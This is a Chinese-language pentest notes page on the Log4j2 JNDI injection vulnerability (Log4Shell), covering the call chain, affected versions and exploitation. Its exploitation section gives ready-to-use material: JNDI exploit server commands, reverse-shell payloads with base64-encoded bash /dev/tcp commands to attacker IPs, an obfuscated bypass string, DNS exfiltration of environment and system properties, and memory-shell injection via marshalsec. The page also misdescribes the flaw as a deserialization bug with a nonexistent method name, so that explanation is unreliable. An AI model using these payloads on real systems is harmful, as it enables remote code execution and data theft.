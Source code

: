 +++
ShowToc = true
TocOpen = true
title = 'Log4j2'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'Java安全'
+++


# 一、Log4j2

Log4j是Apache的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX Syslog守护进程等；我们也可以控制每一条日志的输出格式；通过定义每一条日志信息的级别，我们能够更加细致地控制日志的生成过程。


​ Log4j在工程中可以易用，方便等代替了 System.out 等打印语句，它是Java下最流行的日志输入工具，一些著名的开源项目，像spring、hibernate、struts都使用该工具作为日志输入工具，可以帮助调试（有时候debug是发挥不了作用的）和分析。

# 二、漏洞原理

由于log4j2库中的JNDI查询功能存在反序列化漏洞，具体来说是由于log4j2在处理日志事件时，使用了java反序列化机制(java Serialization)对java的对象和反序列化操作,没有对反序列化中的过程做安全的验证措施
导致可以构造恶意的JNDI名称的特殊日志来触发log4j2库中的JndiLookup.deserialized()方法调用，在执行反序操作时，可以利用java反序列漏洞，将恶意的代码注入到反序列化对象中，从而实现远程命令攻击。

来看一下正常使用的代码：




```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
 
public class Log4j2Test {
    private static  final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        String username = "world";
        logger.error("hello {}",username);
    }
```

正常这里会传入log4j2，hello word，如果我们传入${java:version}则会记录java版本， 大致的调用链如下：

MessagePatternConverter.format()会对```${```进行检测识别，并调用StrSubstitutor.replace()对传入的值进行处理StrSubstitutor类中多个方法处理到StrSubstitutor.substitute()将${jndi:rmi://192.168.198.134:9999/exp}处理解析为jndi:rmi://192.168.198.134:9999/exp后并调用resolveVariable()
StrSubstitutor.resolveVariable()调用lookup方法
判断识别jndi的处理类JndiLookup
JndiLookup.lookup()调用JndiManager.getDefaultManager()获得context
并通过JndiManager.lookup()调用java自身的InitialContext.lookup()，InitialContext类是执行命名操作的初始上下文，所有命名操作都相对于某一上下文，该初始上下文实现 Context 接口并提供解析名称的起始点，通过lookup()检索

到最后一步，如果看不明白可以详细查看JNDI注入的相关内容。

# 三、漏洞发现

由于日志框架，只能哪里有空哪里插，目前依赖于插件以及xray等工具进行检测

影响范围：Apache Log4j 2.x<=2.14.1

# 四、漏洞利用

开启log4j2的JNDI注入工具：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 192.168.2.40
```

值得注意的是，此处的IP不能为回环地址，而必须为使用的IP地址

![](/zj_img/WEBRESOURCEf4a59216cb0105b4103e10fc35a7697b截图.png)

发送恶意payload:

基础payload:

```
${jndi:ldap://dadad.ceye.io}
```

反弹shell：

```
${jndi:ldap://10.10.14.147:1389/Basic/ReverseShell/10.10.14.147/8888}  实战中有失败案例
${jndi:ldap://10.10.14.147:1389/ldap://10.10.14.147:1389/Basic/Command/Base64/YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDcvODg4OCAwPiYx}  使用较多
```

**另外一个工具的使用方式：**

坑点：空格少一个，多一个可能导致运行失败

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,Base64编码后的Payload}|{base64,-d}|{bash,-i}" -A "攻击机IP"
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuNDAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.2.40"
```

payload:

工具运行会显示：

![](/zj_img/WEBRESOURCE9efb3ef4b73730bb26e334823b026b48截图.png)

绕过payload示例：

```
${${::-j}${::-n}${::-d}${::-i}:ldap://120.24.183.94:1389/Basic/ReverseShell/120.24.183.94/65510}
```

TIPS:

可能遇到URL编码问题，可观察命令情况以及URL编解码解决

带出方法：

```
${jndi:ldap://${java:version}.u2xf5m.dnslog.cn}
```

DNS带出：

使用
```
logg.error("${jndi:dns://xxxxx:8090/${java:version}}");
```

在自己的VPS上nc -luvvp 8090即可收到信息





在自己的VPS上nc -luvvp 8090即可收到信息

![](/zj_img/WEBRESOURCE742b30da9f5e2149bd0c86065a925dda0d81a246a42ab1f05de994beb001bc62.png)

其他命令：

log4j-java





```
ID	usage	method
1	${java:version}	getSystemProperty("java.version")
2	${java:runtime}	getRuntime()
3	${java:vm}	getVirtualMachine()
4	${java:os}	getOperatingSystem()
5	${java:hw}	getHardware()
6	${java:locale}	getLocale()
```

Linux





```
id	usage
1	${env:CLASSPATH}
2	${env:HOME}
3	${env:JAVA_HOME}
4	${env:LANG}
5	${env:LOGNAME}
6	${env:MAIL}
7	${env:PATH}
8	${env:PWD}
9	${env:SHELL}
10	${env:USER}
```

Windows





```
id	usage
1	${env:A8_HOME}
2	${env:A8_ROOT_BIN}
3	${env:CLASSPATH}
4	${env:JRE_HOME}
5	${env:Java_Home}
6	${env:LOGONSERVER}
7	${env:OS}
8	${env:Path}
9	${env:USERDOMAIN}
10	${env:USERNAME}
```

log4j2-sys





```
id	usage
1	${sys:java.version}
2	${sys:os.name}
3	${sys:os.version}
4	${sys:user.name}
```

# 五、内存马注入

大致方式和fastjson jndi注入一致：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.5.106:8888/#a" 9999
```

```
${jndi:rmi://192.168.5.106:9999/b}
```

![](/zj_img/WEBRESOURCE795910d646b10087b218070c30b1adfeimage.png)

受限于JDK版本和组件，注入方法可能不太一样，其他集成工具有待验证。